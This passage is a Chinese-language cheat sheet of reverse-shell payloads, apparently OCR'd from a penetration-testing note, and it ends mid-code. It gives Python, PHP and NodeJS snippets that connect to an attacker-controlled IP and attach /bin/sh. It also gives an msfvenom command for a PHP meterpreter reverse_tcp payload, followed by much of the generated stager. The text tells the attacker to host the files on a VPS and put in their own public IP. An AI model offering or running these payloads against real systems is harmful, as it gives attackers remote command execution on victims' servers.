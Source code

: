 ```
**Python 反弹shell**
攻击者启动http服务，并在站点目录下存放一个py文件，使用socket建连反弹shell（真实情况下需要VPS上部署HTTP服务，并建立如下文件）
```
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.159.128",19111)) #更改IP为自己的外网IP,端口自定义
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
**PHP反弹shell**
攻击者启动http服务，并在站点目录下存放一个txt文件，里面写着php反弹shell命令（真实情况下需要VPS上部署HTTP服务，并建立如下文件）
```
<?php
$sock=fsockopen("192.168.159.128",19111); // IP为自己的外网IP，端口自定义
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
**NodeJS 反弹shell**
攻击者启动HTTP服务，并将如下文件放入到站点根目录下
```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(19111, "192.168.1.100", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
#### MSF 反弹shell
生成payload,reverse_shell.php
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.128 lport=2233 -o reverse_shell.php
```
文件内容
```
/*<?php /**/ error_reporting(0); $ip = '192.168.64.128'; $port = 2233; if (($f = 'stream_socket_client') 
&& is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen')
 && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is                                                                                                      
_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$re
s) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket')
; } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4
); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b)
 < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .
= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_ty
pe; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create
_function('', $b); $suhosin_bypass(); } else { eval($b); } die();    